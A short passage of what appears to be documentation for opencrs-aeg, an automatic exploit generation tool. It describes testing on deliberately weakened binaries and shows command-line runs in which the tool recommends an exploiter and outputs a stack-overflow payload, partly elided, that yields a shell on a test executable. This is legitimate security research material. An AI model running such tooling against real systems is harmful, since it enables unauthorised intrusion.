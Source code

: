 1. Two with NX, canaries, and PIE disabled; and
2. One with NX enabled + canaries and PIE disabled.

Furthermore, one executable contained a sensitive function that could be used in the exploit (as a substitute to, say, other symbols). In every example, the module effectively developed exploits.

```bash
$ opencrs-aeg recommend --elf bof_nx_32 --stream=STDIN --mitigation=NX --weakness=STACK_OUT_OF_BOUND_WRITE
Exploiters that can be used considering the context are:
- ZERATOOL
```

```bash
$ opencrs-aeg exploit --exploiter ZERATOOL --elf bof_nx_32 --stream STDIN --mitigation NX --weakness STACK_OUT_OF_BOUND_WRITE
The exploiter could generate an exploit with the outcome of SHELL and the following payloads:

- For STDIN:
[...]
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x90\x04\x08baaa\x1e\xa0\x04\x08\x00\x00\x00\x00\x00
[...]
```
